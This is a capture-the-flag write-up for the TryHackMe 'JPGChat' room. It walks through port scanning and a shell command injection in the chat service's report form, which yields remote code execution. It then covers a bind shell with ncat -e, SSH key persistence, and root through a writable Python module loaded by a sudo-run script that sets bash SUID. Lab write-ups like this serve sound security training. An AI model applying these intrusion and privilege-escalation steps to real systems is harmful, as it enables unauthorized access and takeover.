

> JPGChat writeup | Tuesday 29th December

> https://tryhackme.com/jr/jpgchat

# Recon / Enum

---------------

Starting of with a classic nmap scan will reveal that there are 2 ports open.

Specifically port 22 and 3000.

`nmap -sC -sV -p- -v 10.10.166.220`

```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 7b:21:46:4c:d3:fa:73:c8:47:94:3a:be:3a:cd:4c:63 (RSA)
|   256 94:07:43:bb:9c:fa:7e:a4:db:c4:13:6a:e5:1c:e5:65 (ECDSA)
|_  256 f2:97:ac:b3:2b:d2:e4:38:15:66:d2:5a:ab:16:2e:3b (ED25519)
3000/tcp open  ppp?
| fingerprint-strings: 
|   GenericLines, NULL: 
|     Welcome to JPChat
|     source code of this service can be found at our admin's github
|     MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
|_    REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

Now 22 is just ssh, but 3000 is "JPChat"?

Now we can see that the source code for the application is at the admins github.

Lets try to connct to the application to check if we can find the source code.

`nc 10.10.166.220 3000`

```
Welcome to JPChat
the source code of this service can be found at our admin's github
MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel
REPORT USAGE: use [REPORT] to report someone to the admins (with proof)
```

Now this we have already seen, but lets try to send messages to the only channel available

```
[MESSAGE]
There are currently 0 other users logged in
[MESSAGE]:
```
As we can see, there are currently no users logged in.

After poking around at this `[MESSAGE]` form, there appears to be nothing useful.

But we should check out the `[REPORT]` form aswell.

```
this report will be read by Mozzie-jpg
your name:

```

As we can see, the report will be read by Mozzie-jpg!

That must be the admins alias, lets check github for him!

# Enumerating the application

After visiting the admins github, i have found the source code.

Here is the source code

```python
#!/usr/bin/env python3

import os

print ('Welcome to JPChat')
print ('the source code of this service can be found at our admin\'s github')

def report_form():

	print ('this report will be read by Mozzie-jpg')
	your_name = input('your name:\n')
	report_text = input('your report:\n')
	os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
	os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)

def chatting_service():

	print ('MESSAGE USAGE: use [MESSAGE] to message the (currently) only channel')
	print ('REPORT USAGE: use [REPORT] to report someone to the admins (with proof)')
	message = input('')

	if message == '[REPORT]':
		report_form()
	if message == '[MESSAGE]':
		print ('There are currently 0 other users logged in')
		while True:
			message2 = input('[MESSAGE]: ')
			if message2 == '[REPORT]':
				report_form()

chatting_service()
```

What i first notice about this program is the `os` module, it is often used to send commands directly to the system.

The syntax for that is:
`os.system('COMMAND')`

And in the source code, there are two lines which use that .system() call.

```python
os.system("bash -c 'echo %s > /opt/jpchat/logs/report.txt'" % your_name)
os.system("bash -c 'echo %s >> /opt/jpchat/logs/report.txt'" % report_text)
```
The echo command, well echoes something to the terminal or it can be redirected to a file or other things.

### BUT, in this situasion it isn't properly handled!!!

The echo command should be surrounded by quotes, especially if it is going to be passed user input.

This can be exploited with a simple `;`, as it isn't surrounded by quotes, we should be able to run an extra command.

We can test this locally before firing it at the target. (AS YOU SHOULD)

```
➜  writeup: echo test; ls > test.txt                                        
test
➜  writeup: 
```
Now this only returns "test", why is that?

Lets try to cat out the file, just to see whats in it.

```
➜  writeup: cat test.txt 
README.md
test.txt
➜  writeup:
```

And as we can see, it included the output of the `ls` command!!!

---------------

# Exploitation

---------------

Now that we seem to have a working exploit, lets try to exploit the service.

Lets reconnect to the application and try to run the exploit!


Now that returned this to our nc listener:

```
➜  ~ nc -lnp 9999         
uid=1001(wes) gid=1001(wes) groups=1001(wes)
➜  ~ 
```
Now that is RCE, lets try to get a shell.
As luck would have it, this box has `ncat -e` enabled. So we could just create a simple bind shell to a high port (so we dont need sudo)


And as we can see, the terminal stops working, this is a good sign, as it usually means that ncat is actually listening.

Now lets try to connect to the victim on port 9999 (IN A NEW TERMINAL)



### Now we have RCE

My first thought is to add my ssh public key to wes' authorized_keys file, so we have a full shell rather than this bare-bones shell.

After adding your public key to wes' authorized_keys file, you should be able to just ssh into wes.

---------------

# Privilege Escalation

---------------

Now that we have a stable shell + persistence, we can now move on to privilege escalation.

The first thing i do whenever i get on a box, is check for anything i can run as sudo

```bash
wes@ubuntu-xenial:~$ sudo -l
Matching Defaults entries for wes on ubuntu-xenial:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wes may run the following commands on ubuntu-xenial:
    (root) NOPASSWD: /usr/bin/python3 /opt/development/test_module.py
wes@ubuntu-xenial:~$ 
```

We can run `test_module.py` as root!

Lets go check that file out!

```
wes@ubuntu-xenial:~$ cd /opt/development/
wes@ubuntu-xenial:/opt/development$ ls -la
total 12
drwxr-xr-x 2 root root 4096 Dec 28 23:06 .
drwxr-xr-x 4 root root 4096 Dec 28 23:06 ..
-rw-r--r-- 1 root root   93 Dec 28 23:20 test_module.py
wes@ubuntu-xenial:/opt/development$ cat test_module.py 
#!/usr/bin/env python3

from compare import *

print(compare.Str('hello', 'hello', 'hello'))

wes@ubuntu-xenial:/opt/development$ 

```

So it starts with importing a module named `compare`?

I haven't heard of that module before, we should probably check out that module

Now these modules are usually stored in /usr/lib/python/, But in this scenario we should find it using the `find` command

```
wes@ubuntu-xenial:/opt/development$ find / -name compare.py 2>/dev/null
/usr/lib/python3.5/compare.py
wes@ubuntu-xenial:/opt/development$ 
```
So lets jump over to that directory and check out that module!

```
wes@ubuntu-xenial:~$ cd /usr/lib/python3.5/
wes@ubuntu-xenial:/usr/lib/python3.5$ cat compare.py 
class compare:

	def Str(self, x, y,):
		x = str(x)
		y = str(y)

		if x == y:
			return True;
		else:
			return False;

	def Int(self, x, y,):
		x = int(x)
		y = int(y)

		if x == y:
			return True;
		else:
			return True;

	def Float(self, x, y,):
		x = float(x)
		y = float(y)

		if x == y:
			return True;
		else:
			return False;
wes@ubuntu-xenial:/usr/lib/python3.5$ ls -la compare.py 
-rw-rw-rw- 1 root root 335 Dec 28 23:20 compare.py
wes@ubuntu-xenial:/usr/lib/python3.5$ 
```
### We can write to the module!

Now this means that we can write our own code into that module, and make it execute any command through the `os` module as i mentioned earlier!

So lets try to put in some code which will make bash SUID, effectively making us root instantly


Now lets try to execute the only sudo command we can run without a password!

```
wes@ubuntu-xenial:/usr/lib/python3.5$ sudo /usr/bin/python3 /opt/development/test_module.py 
True
wes@ubuntu-xenial:/usr/lib/python3.5$ ls -l /bin/bash 
-rwsr-sr-x 1 root root 1037528 Jul 12  2019 /bin/bash
wes@ubuntu-xenial:/usr/lib/python3.5$ 
```

### Now bash is SUID root!

Now we can just run the command `/bin/bash -p` and we should get a root shell!

```
wes@ubuntu-xenial:/usr/lib/python3.5$ /bin/bash -p
bash-4.3# id
uid=1001(wes) gid=1001(wes) euid=0(root) egid=0(root) groups=0(root),1001(wes)
bash-4.3# 
```

And as we can see, we are now `effective user-id 0` or `root`.

Good job, you have just rooted the machine, now go collect those flags!

---------------
